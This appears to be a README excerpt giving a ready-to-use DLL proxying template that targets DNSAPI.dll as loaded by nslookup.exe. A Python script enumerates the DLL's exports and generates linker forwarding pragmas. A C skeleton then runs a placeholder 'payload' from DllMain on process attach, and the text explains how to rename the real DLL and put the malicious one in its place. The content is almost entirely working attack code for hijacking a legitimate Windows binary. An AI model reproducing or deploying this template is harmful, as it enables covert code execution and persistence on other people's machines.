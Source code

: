 Basic python script to extract all exported functions of a targeted DLL, here `DNSAPI.dll` used by `nslookup.exe`.

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

DLL Proxying code via `DNSAPI.dll` on `nslookup.exe`, in this exemple, the original `DNSAPI.dll` file must be renamed `proxy.dll` and the generated dll must be named `DNSAPI.dll`.

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
